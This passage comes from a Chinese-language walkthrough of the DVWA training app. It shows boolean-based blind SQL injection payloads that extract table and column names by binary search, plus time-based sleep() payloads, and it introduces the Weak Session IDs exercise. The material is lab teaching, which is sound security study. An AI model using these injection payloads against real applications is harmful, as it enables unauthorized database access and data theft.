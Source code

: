     说明第一个表名长度为9
    
    --------------------------------------------------------------
    
        1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 # 显示存在
        1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 # 显示存在
        1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 # 显示存在
        1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 # 显示不存在
        1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 # 显示不存在
    
    说明第一个表的名字的第一个字符为小写字母g
    
    ```

    猜解表中的字段名：

    ```mysql
        1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=1 # 显示不存在
        …
        1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8 # 显示存在
    
    说明users表有8个字段。
    
    接着挨个猜解字段名：
    
        1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1))=1 # 显示不存在
        …
        1' and length(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),1))=7 # 显示存在
    
    说明users表的第一个字段为7个字符长度。
    
    采用二分法，即可猜解出所有字段名。
    ```

6.  上述盲注手法为基于布尔值的盲注，还可以使用基于时间的盲注，基于时间的盲注多使用”sleep()“函数来观察是否由明显的时延，凭此依据判断sql注入语句是否执行成功。

    用法类似于“ 1' and sleep(5)# ”、“ 1' and if(length(database())=1,sleep(5),1) # ”

    这样也可以将时间盲注看作是布尔盲注的一种，只是这里的真假结果变成了时延的表现。

7.  sqlmap的用法与之前的sql注入利用方法一致，抓取请求数据包后利用即可



#### Weak Session IDs（弱会话ID）

Weak Session IDs应该是DVWA 1.9升级到DVWA 1.10后新加的测试项，除此之外相较于1.9版本还增加了“CSP Bypass”与“JavaScript”的测试项。

Session是由服务器产生并保存在服务器端，用户在登录网站后在客户端会产生相应的Session ID作为身份验证信息。攻击者通过盗用用户Session ID或猜解得到用户的Session ID后可利用合法用户的身份信息去做一些不合法的操作。
